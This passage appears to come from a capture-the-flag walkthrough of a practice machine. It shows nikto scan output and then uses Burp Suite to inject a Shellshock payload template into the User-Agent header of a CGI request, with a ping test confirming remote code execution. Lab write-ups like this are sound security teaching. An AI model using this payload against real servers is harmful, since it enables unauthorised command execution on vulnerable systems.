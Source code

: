 ```
2020/11/24 18:08:29 Finished
===============================================================
```
* We get a script called `user.sh`
### nikto
`nikto -host 10.10.10.56`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.56
+ Target Hostname:    10.10.10.56
+ Target Port:        80
+ Start Time:         2020-11-24 16:46:46 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-11-24 16:56:55 (GMT-5) (609 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
* That got us very little information




# Exploitation

### Burpsuite
* If we turn on our proxy pointing to localhost and turn intercept on in burpsuite, we can intercept traffic from the website
* Going to `/cgi-bin/user.sh` we can intercept the get request and press `CTRL+R` to send that to the repeater
	* This is where we can edit the request
* In the "User-Agent" section, we can type in some code
* Using the shellshock vulnerability, we can write `() { :;}; /bin/bash -c '<COMMAND HERE>'
* To test out if code execution works, let's send the code `ping 10.10.14.12` and run `tcpdump -i tun0` (replace the ip with yours)
	* When we press "Send" on the repeater, the influx of packets in tcpdump shows us that we're getting pinged
